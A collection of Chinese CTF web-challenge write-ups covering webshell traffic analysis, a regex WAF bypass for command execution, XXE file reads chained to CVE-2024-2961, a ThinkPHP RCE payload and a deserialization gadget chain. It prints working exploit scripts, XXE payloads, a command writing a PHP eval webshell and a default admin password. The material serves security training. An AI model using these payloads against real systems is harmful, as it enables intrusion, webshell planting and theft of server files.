

## [陇剑杯 2021] webshell

> 题目描述: 单位网站被黑客挂马，请您从流量中分析出webshell，进行回答：
黑客获取webshell之后，权限是______？

### 流量分析

根据题目描述应该是传了个 webshell 到服务器, 那首先聚焦一下 POST 上传的文件, 过滤掉其他包: 


观察 POST 的参数内容可以发现传递的指令, 前面传失败的时候服务器会返回 404 状态码, 这里传了 `whoami` 指令, 并且服务器返回了 200, 比较可疑:

把返回包也抓了, 把其中的 html 复制在 vscode 里打开:

```html
<tr><td class="e">Apache Version </td><td class="v">Apache/2.4.7 (Ubuntu) </td></tr>\n
<tr><td class="e">Apache API Version </td><td class="v">20120211 </td></tr>\n
<tr><td class="e">Server Administrator </td><td class="v">webmaster@localhost </td></tr>\n
<tr><td class="e">Hostname:Port </td><td class="v">172.17.0.2:80 </td></tr>\n
<tr><td class="e">User/Group </td><td class="v">www-data(33)/33 </td></tr>\n
<tr><td class="e">Max Requests </td><td class="v">Per Child: 0 - Keep Alive: on - Max Per Connection: 100 </td></tr>\n
```

如上关键代码, 可以发现返回的结果中的账户是 `www-data`, 实际上这也是大部分网站的默认使用账户; flag 为 `flag{www-data}`;

此外, 通过信息头部的 "ERR: 模板不存在:./Application/Home/View/default/www-data\n" 也可以判断应该是 www-data。

## [FBCTF 2019] rceservice

### 收集基本信息

打开靶机, 提示是一个 RCE 界面, 要求输入 JSON 格式的指令;


尝试了一番之后发现格式应该是 `{"cmd":"<command>"}`; 接下来试试过滤了哪些关键字, 初步探测发现应该过滤了 `0-9`, `/`, `()`, `-`, `|`, `_`, `.`, `~`, `$`, `*`, `[]`, `?`

试了半天没结果, 忘了还有个附件, 下载附件, 代码审计:

### 代码审计

```php

<?php
putenv('PATH=/home/rceservice/jail');
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
  
  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

注意到这里包含了 0-9 这样的过滤, 并且是**贪心匹配** (`+`), 那么想到用 PCRE 调用次数上限来绕过; 并且前后都使用了 `.`, 但是正则匹配中没有使用 `/s` 修饰, 因此也可以用 `%0A` 来绕过:

#### 解法1: PCRE 调用限制绕过

思路: 注意这个 WAF 中不含小写字符, 因此只要在 payload 中 (`cmd` 的**后面**)加入足够多的任意小写字符即可。

几个需要注意的点:

> - php 默认的 PCRE 调用次数上限是 1000000

> - 这里要用 POST 方法, GET 有大小限制;

> - 必须用小写字母, 不能用 `A-Z0-9`, 根据源码里的过滤逻辑 ``[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+``, 这里面的字符如果匹配到是不会回溯的, 包含这些字符就直接被杀了;

> - 垃圾字符必须在 payload 后方, 此时每多输入一个垃圾字符就使得回溯深度 + 1;

```python
#!/usr/bin/env python3

import requests
import re


def main():
    url = 'http://node4.anna.nssctf.cn:28126/index.php'
    proxy = {
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080",
    }

    command = 'ls /'
    bypass = 'a' * 1000000
    payload = '{%0a"cmd":"' + command + '","bypass":"' + bypass + '"%0a}'
    data = {
        'cmd': payload
    }
    resp = requests.post(url, data=data, proxies=proxy)

    # 打印 HTTP 状态码
    print(f'[+] HTTP {resp.status_code}\n')

    # 提取 Attempting to run command 部分
    match = re.search(
        r'Attempting to run command:<br/>.*?<br/>', resp.text, re.S)
    if match:
        print("[+] result found: \n" + match.group(0))
    else:
        print("[-] No command output found")

    # 检测是否被拦截
    match = re.search(
        r'Hack', resp.text, re.S)
    if match:
        print("[-] WAF detected! \n")

if __name__ == '__main__':
    main()
```

试试结果:


成功;

#### 解法2: 换行符绕过

构造 payload: `cmd={%0a"cmd":"ls /"%0a}`



成功;

### RCE 利用

接下来找 flag:


找到这个 flag 在 `/home/rceservice/flag` 里面;

`cat /home/rceservice/flag` 没有回显; 找一下 `/bin` 发现里面是有的;

回顾一下源码里这句: 

```php
putenv('PATH=/home/rceservice/jail');
```

限制了环境, 因此要显式的指定指令绝对路径:

最终 payload:

```
cmd=%7B%0a%22cmd%22%3A%22/bin/cat+/home/rceservice/flag%22%0a%7D
```


拿到 flag: `NSSCTF{1b0d1fd6-ab58-44c7-81c9-88bdd6b0e229}`

## [2025 SWPU-NSSCTF] WebFTP

### WebFTP

一个简单的 WebFTP 系统:


**老系统的默认口令是 `admin:admin888`**, 尝试直接登录成功;

### 信息泄露

接下来需要去 Github 找到这个**项目 WebFTP 的开源代码**, 审计之后可以发现有泄露, 访问这个地址: 

```
/Readme/mytz.php?act=phpinfo
```


## [KPCTF 2024 决赛]Where is the flag

### 代码审计

```php
 <?php
libxml_disable_entity_loader(false);
$data = file_get_contents("php://input");
# 用 input 伪协议 POST 一个 XML 数据
$xml = simplexml_load_string($data,'SimpleXMLElement', LIBXML_NOENT);
# 把输入的字符串解析为 XML 对象, LIBXML_NOENT 表示允许实体替换, 这是 XXE 的核心;
if (isset($xml->username)) {
    echo $xml->username;
} else {
    show_source(__FILE__);
}
# $xml->username 会回显, 也就是注到这里面;
?> 
```

启用了 xml 扩展并加载外部实体, 那应该是 `php://input` 伪协议 + XXE 的题;

### XXE 注入

```xml

<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <username>&xxe;</username>
</root>
```


执行成功, 下一步要找 flag 在哪, 尝试了一下 `/flag` 发现不对;

到这里卡住了, 看了下 wp 接下来必须提升到 RCE 才行;

### CVE-2024-2961

> 原作者博客: [Lexfo](https://blog.lexfo.fr/iconv-cve-2024-2961-p1.html)

#### 攻击链

glibc 版本 2.39 前的 `iconv()` 函数会在将字符串转换为 ISO-2022-CN-EXT 字符集时, 可能发生最多 4 个字节的缓冲区溢出; 

> 长话短说, 这个漏洞在 PHP 中能大放异彩的原因主要是 `php://filter` 这个伪协议底层支持 iconv 字符集, 使用了含有漏洞的 `iconv()` 函数; 

1. filter 伪协议

```php
file_get_contents("php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=file");
```

  将用户数据 -> 交给 `php_stream_filter` -> `php_iconv_stream_filter()` -> 底层调用 libc 的 `iconv()`。

2.  `iconv()` 的问题

  在某些编码组合下 ( `UCS-4LE` -> `UCS-4BE` ) 会导致长度不一致。 php 在分配 buffer 时可能使用错误的大小估算, 导致后续 `memcpy()` / `zend_string` 时发生堆溢出;

3.  php 堆风水布置
  
  php 用户态脚本非常适合堆风水布置; `str_repeat()`, `substr()`, `array_fill()` 等函数组合使用可以精准布块;

4. 任意读写
  
  利用链大致是：

  - 构造一个**受害对象**, 比如 string、array。
  - 通过堆溢出覆盖其 length / pointer。
  - 让 PHP 在读写这个对象时访问到攻击者指定的地址。

  这就达成了：

  - **任意地址读**：把 victim->len 改大，让 `echo $str` 泄露周边内存。
  - **任意地址写**：修改 HashTable bucket，或伪造 zend_string buffer。
  
5. 提权到 RCE
  
  实现任意读写就能进一步: 

  - 修改函数指针; (`zend_execute_ex`);
  - 覆盖 `zend_string` 指针, 执行 JIT spray / shellcode;
  - 改写 opline handler, 劫持执行流;
  
  常见的利用方式是, 伪造一个 **zend_function / opline**, 让 php 跳到自己控制的内存上; 由于 PHP FFI / JIT 机制存在 RWX 内存区域, 很容易找到可执行区写入 shellcode;

#### 攻击链图示

```
php://filter → php_iconv_stream_filter()
          ↓
   iconv() 输出长度估算错误
          ↓
   堆缓冲区溢出 (zend_string)
          ↓
   覆盖相邻对象元数据
          ↓
   任意地址读/写
          ↓
   劫持函数指针 / opline
          ↓
          RCE
```

#### 复现

脚本小子直接用这个项目: [Github](https://github.com/kezibei/php-filter-iconv)

这个 PoC 需要下载到靶机的 `/proc/self/maps` + `libc-2.x.so` 这两个文件, 并和 python 文件放到同目录;

先读 `/proc/self/maps`, 读出环境文件;


接下来读 `/lib/x86_64-linux-gnu/libc-2.31.so`:

```xml
<?xml version="1.0"?>
<!DOCTYPE LSE [  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/lib/x86_64-linux-gnu/libc-2.31.so">]>
<root>
<username>
&xxe;
</username>
</root>
```

这里用一个 python 脚本解码就行:

```python
import base64
file = open("a.bin", "rb")

now = file.read()
ba = base64.b64encode(now)
print(ba)
file.close()

# 对已有文件做base64编码并输出
```

使用: 

```bash
python file_b64_decoder.py < data.txt
```

最后改一下 PoC :

```python
.......
maps_path = './maps'
cmd = 'echo "<?php @eval($_POST[\'shell\']);?>" > shell.php'
sleep_time = 1
padding = 20

if not os.path.exists(maps_path):
    exit("[-]no maps file")

regions = get_regions(maps_path)
heap, libc_info = get_symbols_and_addresses(regions)

libc_path = libc_info.path
print("[*]download: "+libc_path)

libc_path = './libc-2.31.so'
.......
```

然后执行:


最后读出 flag。

## [GHCTF 2024 新生赛] CMS直接拿下

> hint: api接口账号密码泄露

打开题目, 是个 ThinkPHP 的提示页面, 有显示版本:


### ThinkPHP 信息泄露

之前接触的场景有 `CVE-2018-20062`, `CVE-2019-9082`; 主要针对 5.x 版本的, 这里先尝试一下:

> 在 `/index.php?s=captcha` 下 POST:

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```


似乎不对, 应该是修复了; 

那先爆破一下目录: 


登录界面暂时没有发现注入, 也没有弱口令, 尝试一下其他手段; 下载一下网站源码;

### 代码审计

关键代码:

```php
...
// 中间还有很多接口, 不过都需要登录;

public function users()
{
    $db = new AdminUser;
    $datas = $db->select();
    return json(["code"=>0, "data"=>$datas, "msg"=>"获取成功", ]);
}
```

注意到这个 api 不需要登录;

### api 信息泄露

访问 `/api/users`:


登录成功:


### 反序列化

这段源码:

```php
# 序列化接口: 创建并存储
public function seria(Request $request)
{
    $userinfo = Session::get('userinfo');
    if(is_null($userinfo)){
        return redirect('/admin/login');
    }
    else{
        $seria =  serialize(new Student(
            $request->post('id',2),
            $request->post('name','李四'),
            $request->post('score1',91),
            $request->post('score2',92),
            $request->post('score3',93)
        ));
        return json(["code"=>200, "data"=>$seria, "msg"=>"获取成功"]);
    }
}

# 反序列化执行
public function list(Request $request)
    {
        $userinfo = Session::get('userinfo');
        if(is_null($userinfo)){
            return redirect('/admin/login');
        }
        else {
            $db = new Datas;
            $page = $request->get('page',1);
            $limit = $request->get('limit',10);
            $where = [];
            $datas = $db->where($where)->field('serialize')->page($page,$limit)->select();
            $count = $db->where($where)->count();

            $lists = [];
            foreach ($datas as $data){
                $data = unserialize($data['serialize']);
                $lists[] = [
                    "id" => $data->id,
                    "name" => $data->name,
                    "score1" => $data->score1,
                    "score2" => $data->score2,
                    "score3" => $data->score3,
                    "average" => $data->average];
            }
            return json(["code"=>0, "data"=>$lists, "count"=>$count, "msg"=>"获取成功", ]);
        }
    }

# 更新
public function update(Request $request)
    {
        $userinfo = Session::get('userinfo');
        if(is_null($userinfo)){
            return redirect('/admin/login');
        }
        else{
            $data = $request->post('data');
            $db = new Datas;
            $result = $db->save(['serialize'=>$data]);

            return json(["code"=>200,"msg"=>"修改成功"]);
        }
    }
```

那么利用链应该是 创建->更新->反序列化;

PoC:

```php
<?php
 namespace think\model\concern;
 trait Attribute
 {
     private $data = ["key"=>"cat /flag"];
     private $withAttr = ["key"=>"system"];
 }
 namespace think;
 abstract class Model
 {
     use model\concern\Attribute;
     private $lazySave = true;
     protected $withEvent = false;
     private $exists = true;
     private $force = true;
     protected $name;
     public function __construct($obj=""){
         $this->name=$obj;
     }
 }
 namespace think\model;
 use think\Model;
 class Pivot extends Model
 {}
 $a=new Pivot();
 $b=new Pivot($a);
 echo urlencode(serialize($b));
```


